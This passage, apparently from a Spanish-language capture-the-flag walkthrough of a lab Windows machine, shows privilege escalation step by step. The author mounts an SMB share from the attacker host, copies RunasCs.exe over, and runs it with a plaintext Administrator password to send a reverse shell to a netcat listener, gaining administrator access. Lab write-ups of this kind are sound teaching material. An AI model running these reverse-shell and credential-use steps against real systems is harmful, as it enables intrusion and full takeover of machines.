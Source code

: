 - Nos conectamos.

```bash
c:\users\svc_minecraft\server>net use x: \\10.10.14.63\smbFolder /user:test 1234567
net use x: \\10.10.14.63\smbFolder /user:test 1234567
The command completed successfully.


c:\users\svc_minecraft\server>
```

- Y nos traemos el `RunasCs.exe`.

```bash
c:\Users\svc_minecraft\Documents>copy x:\RunasCs.exe .
copy x:\RunasCs.exe .
        1 file(s) copied.

c:\Users\svc_minecraft\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\Documents

06/26/2024  12:00 PM    <DIR>          .
06/26/2024  12:00 PM    <DIR>          ..
05/19/2023  11:37 PM            51,712 RunasCs.exe
               1 File(s)         51,712 bytes
               2 Dir(s)   3,521,609,728 bytes free
```

- Nos ponemos en escucha para recibir la `shell`.

```bash
➜  Downloads rlwrap nc -nlvp 443
listening on [any] 443 ...
```

```bash
c:\Users\svc_minecraft\Documents>.\RunasCs.exe Administrator s67u84zKq8IXw cmd.exe -r 10.10.14.63:443
.\RunasCs.exe Administrator s67u84zKq8IXw cmd.exe -r 10.10.14.63:443

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 1120 created in background.
```

- Recibimos la shell.

```bash
➜  Downloads rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.11.249] 49683
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
crafty\administrator
```
